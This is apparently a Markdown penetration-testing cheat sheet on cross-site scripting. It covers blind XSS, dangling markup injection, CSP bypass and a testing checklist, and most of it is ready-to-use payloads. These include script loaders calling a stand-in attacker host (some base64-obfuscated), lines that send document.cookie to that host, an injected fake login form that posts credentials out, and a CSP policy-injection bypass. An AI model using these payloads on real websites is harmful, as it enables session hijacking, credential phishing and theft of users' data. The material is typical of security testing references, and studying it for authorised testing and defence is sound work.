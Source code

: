 # Cross-Site Scripting
- [Blind XSS](#blind-xss)
- [Dangling Markup Injection](#dangling-markup-injection)
- [Content Security Policy (CSP)](#content-security-policy-csp)
- [Testing](#testing)


> [!NOTE]
> XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).


## Blind XSS
- A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

    - Contact Forms
    - Reviews
    - User Details
    - Support Tickets
    - HTTP User-Agent header

- Payloads trigger Blind XSS:
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
```javascript
<script src='http://OUR_IP'></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

'"><svg onload="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

# More Advanced Payloads
<!-- Image tag -->
'"><img src="x" onerror="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

<!-- Input tag with autofocus -->
'"><input autofocus onfocus="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

<!-- In case jQuery is loaded, we can make use of the getScript method -->
'"><script>$.getScript("{SERVER}/script.js")</script>

<!-- Make use of the JavaScript protocol (applicable in cases where your input lands into the "href" attribute or a specific DOM sink) -->
javascript:eval(atob("Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=="))

<!-- Render an iframe to validate your injection point and receive a callback -->
'"><iframe src="{SERVER}"></iframe>

<!-- Bypass certain Content Security Policy (CSP) restrictions with a base tag -->
<base href="{SERVER}" />

<!-- Make use of the meta-tag to initiate a redirect -->
<meta http-equiv="refresh" content="0; url={SERVER}" />

<!-- In case your target makes use of AngularJS -->
{{constructor.constructor("import('{SERVER}/script.js')")()}}

```

- Grab the cookies:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

- **Phishing**
    - Login form
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Dangling Markup injection
- Dangling Markup Injection
    - It's a technique hackers use to grab sensitive data from websites in cases where a full-fledged cross-site scripting (XSS) attack isn't an option.

- **How Does It Work?**
    - Imagine a website takes some user input and includes it directly in its HTML code, like this: `<input type="text" name="input" value="USER DATA HERE">`

    - If regular XSS is blocked (due to filters or security policies), the attacker might use dangling markup. They inject something like this: `"><img src='//attacker-website.com?`

    - It begins defining a `src` (source) attribute but leaves it incomplete (or "dangling").
    - The browser will keep looking for where the attribute ends, and during this process, it may accidentally include part of the webpage's response as part of the URL.
    - Anything following the injection point in the webpage's response, like CSRF tokens or user data, might be sent to the attacker's server.

## Content Security Policy (CSP)
- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. 
- It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

- To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

```javascript
# Directive will only allow scripts to be loaded from the same origin as the page itself: 
script-src 'self'
# Directive will only allow scripts to be loaded from a specific domain:
script-src https://scripts.normal-website.com
```

- CSP also provides two other ways of specifying trusted resources:
    1. The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.

    2. The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.


- **Bypassing CSP with policy injection**
    - You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. 
    - Usually, this `report-uri` directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.
    - `https://WEBSITE/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'`

## Testing 
- [ ] Check for any reflection

- [ ] XSS context is inside a quoted string literal
    - [ ] `'-alert(document.domain)-'`
    - [ ] `';alert(document.domain)//`

- [ ] Hidden inputs
    - [ ] Check for href in canonical link tag `<link rel="canonical" href='http://WEBSITE/?'accesskey='x'onclick='alert(1)'/>`


- [ ] Check for CSTI (Angularjs, Vuejs)
- [ ] Check for DOM XSS (using DOM invader)


- [XSS Filter bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass.md#bypass-using-bom)



- **Resources** 
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
    - [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
